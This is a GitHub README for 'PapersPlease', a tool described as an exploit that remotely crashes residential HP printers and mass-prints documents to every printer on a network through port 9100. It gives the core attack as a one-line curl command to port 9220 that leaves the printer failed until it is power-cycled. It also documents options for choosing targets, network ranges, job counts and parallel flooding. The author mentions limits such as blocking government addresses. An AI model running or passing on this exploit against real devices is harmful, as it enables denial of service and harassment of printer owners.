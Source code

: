 
# PapersPlease

<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to remotely crash an HP printer.
So far residential class printers have been observed to be exploitable by this vulnerability.
The tool also comes with the ability to mass print documents from either a single printer 
or all printers on a network by abusing HPs printing protocol found on port 9100.

Notice that the program will stop you from connecting to known government external 
IP addresses. While not blocking all of them, it is there to stop skiddies from accidentally 
(or purposefully) scanning government addresses… as that would be bad.  

Also note that while exploiting a network range, you will only be able to specify a private IP address. 
As I’m not going to be responsible for some kid taking every port-forwarded printer down 
on the Internet, as funny as that would be. 

NOTE: To recover from the vulnerability after being exploited, you will have to power-cycle your printer.
As the exploit is crashing an internal process which causes the printer to go into a 
"failed" state.

Additionally:<br>
This script is fully compatible with `Termux` for Android.

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:<br>
`curl [IP]:9220 -X 'open 99999999'`<br>
As mentioned above, the printer will go into a failed state and remain in said state until restarted.

### CLI Options

`-t`, `--target={IP}`       Specify a specific target rather than all addresses on the network.

`-n`, `--network={IP/CIDR}` Manually specify the network address for the current network you are on.

`--papyrus={N}`             Number of jobs to send to the printer this should cause the printer to print 
                            N number of pages.

`-i`, `--interval={N}`      The interval before another job is sent to the printer. Where N can be a decimal
                            i.e. 0.1 or a whole number. The default interval is 1.             

`-j`, `--jobs={-N|+N|N%|N}` Number of jobs to run. Passes value to parallel. Defaults to 0.

`-p`, `--proc={-N|+N|N%|N}` Define the maximum N of processes that can be active at a time. Defaults to 1.

`-s`, `--slots={-N|+N|N%|N}`The amount of 'slots' available to be used by parallel for jobs. Default is 252.

`-P`, `--port={PORT}`       Specify a specific port. Useful for port-forwarded hosts. Port number is set 
                            automatically based on the attack being preformed. PORT can be any number ranging
                            from 1 to 65535.
                            
`--no-check`                Will skip dependency checking.

`-q`, `--quiet`             Suppress output to terminal. Only the progress bar from parallel will be
                            printed to the terminal in this mode.

`-v`, `--version`           Print version information then exit.

`-h`, `--help`              Print this dialog page.
